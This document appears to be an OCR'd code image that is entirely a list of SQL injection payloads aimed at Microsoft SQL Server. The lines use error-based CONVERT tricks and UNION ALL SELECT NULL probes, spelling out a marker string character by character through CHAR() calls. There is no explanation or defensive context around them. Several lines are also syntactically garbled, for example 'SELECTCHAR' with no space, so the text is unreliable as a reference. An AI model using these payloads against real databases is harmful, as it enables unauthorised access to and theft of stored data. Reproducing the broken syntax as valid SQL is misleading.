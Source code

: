 ```
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)))-- 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113)))-- 
 UNION ALL SELECT NULL#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)))#
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)+CHAR(65)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(107)+CHAR(113)))#
 UNION ALL SELECT NULL 
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)+CHAR(88)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)))
 AND 5650=CONVERT(INT,(UNION ALL SELECTCHAR(73)+CHAR(78)+CHAR(74)+CHAR(69)+CHAR(67)+CHAR(84)+CHAR(88)+CHAR(118)+CHAR(120)+CHAR(80)+CHAR(75)+CHAR(116)+CHAR(69)))
```